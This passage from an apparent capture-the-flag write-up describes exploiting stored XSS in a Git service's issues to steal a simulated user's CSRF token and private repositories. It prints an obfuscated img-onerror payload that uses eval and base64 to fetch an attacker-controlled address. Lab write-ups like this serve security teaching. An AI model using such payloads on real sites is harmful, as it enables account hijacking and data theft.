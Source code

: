 So someone is indeed checking the issues, and we can exploit this fact. So now we need to somehow make charlie request for our page, and observation of Burp reqeusts implies we need to steal the CSRF token to access his hidden repositories.

<figure><img src="../../.gitbook/assets/image (88) (1).png" alt=""><figcaption></figcaption></figure>

After some more testing, I come across the eval.call XSS method through the page, and was able to include this within the issues to get a hitback on my netcat listener!

This is the payload used: `test<test><img SRC="x" onerror=eval.call${"eval\x28atobZmV0Y2goImh0dHA6Ly8xMC4xMC4xNC41LyIp\x29"}>`

<figure><img src="../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

What this does is essentially is `fetch('http://10.10.x.x')` for Charlie to execute upon looking at the issues.

Now, we can use this XSS to send us the information from charlie's repos. This can be done using this payload:

<figure><img src="../../.gitbook/assets/image (90) (1).png" alt=""><figcaption></figcaption></figure>

What this essentially does is this:

<figure><img src="../../.gitbook/assets/image (95) (1).png" alt=""><figcaption></figcaption></figure>
